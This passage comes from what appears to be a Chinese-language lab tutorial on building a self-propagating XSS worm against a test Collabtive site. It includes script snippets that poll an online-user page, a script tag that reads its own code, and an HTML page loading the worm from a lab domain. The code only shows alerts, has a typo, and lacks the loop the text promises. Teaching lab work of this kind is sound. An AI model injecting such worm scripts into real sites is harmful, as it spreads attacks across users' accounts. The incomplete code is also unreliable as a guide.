 这里是代码：

```
    var on=new Ajax.PeriodicalUpdater(&#34;onlinelist&#34;,
    &#34;manageuser.php?action=onlinelist&#34;,
    //定义一个新的Ajax.PeriodicalUpdater
    {method:’get’,onSuccess:function(transport){alert(transport.responseText);},
    frequence:1000}
    //请求方式为get，频率为1000
```

上面的蠕虫代码不能够进行自动传播，这样达不到我们的需求；我们需要编写一个可以自动传播的xss蠕虫病毒，下面这段代码是蠕虫可以自动传播：

```
    &lt;script id=worm&gt;//定义js的id为worm
    var strCode = document.getElementById(&#34;worm&#34;);
    //找到元素id
	alert(strCode.innerHTML);
    &lt;/script&gt;
``` 

代码中使用循环体，从而达到自动传播的目的。

在实验机中这样创建xss蠕虫：

```
sudo vim xss_worm.js
```

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429159804839?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)


```
    var strCode = document.getElementByld(&#34;worm&#34;);
	alert(strCode.innerHTML);
```

然后用一个html文件调用蠕虫：

```
sudo vim worm.html
```

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid882time1429159819243?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

```
    &lt;script type=&#39;text/javascript&#39; src=&#39;http://www.xsslabcollabtive.com/xss_worm.js&#39;&gt;&lt;/script&gt;
```

#### 科普 

&gt;XSS worm攻击原理剖析[http://book.51cto.com/art/201311/419361.htm](http://book.51cto.com/art/201311/419361.htm &#34;XSS worm攻击原理剖析&#34;)

&gt;XSS worm剖析 [http://book.51cto.com/art/201311/419362.htm](http://book.51cto.com/art/201311/419362.htm &#34;XSS Worm剖析&#34;)

&gt;XSS worm案例 [http://www.wooyun.org/bugs/wooyun-2013-017701](http://www.wooyun.org/bugs/wooyun-2013-017701 &#34;点评网主站漏洞打包详解+手把手教你写xss蠕虫&#34;)
